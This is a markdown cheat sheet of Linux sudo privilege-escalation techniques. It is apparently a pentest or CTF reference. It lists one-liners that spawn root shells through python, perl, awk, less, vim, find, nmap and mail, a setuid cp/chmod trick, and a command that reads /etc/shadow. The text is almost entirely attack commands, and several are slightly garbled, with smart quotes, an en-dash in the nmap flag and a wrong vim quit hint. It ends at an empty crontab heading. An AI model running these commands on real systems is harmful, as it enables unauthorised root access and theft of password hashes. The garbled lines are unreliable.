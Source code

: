 # Linux Privesc

## Sudoers - Privesc

#### Exhaustive list
https://gtfobins.github.io/

#### Python
```
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])
```

#### Perl
```
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’
```

#### CP + Chmod
```
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit
```

#### Awk
```
awk 'BEGIN {system("/bin/bash")}'
```

#### Less
```
Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash
```

#### Vim
```
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash
```

#### Find
```
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;
```

#### Bash
```
sudo -u root /bin/bash
```

#### Nmap
```
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh
```

#### Mail
```
sudo mail --exec='!/bin/bash'
```

## Crontab - Privesc
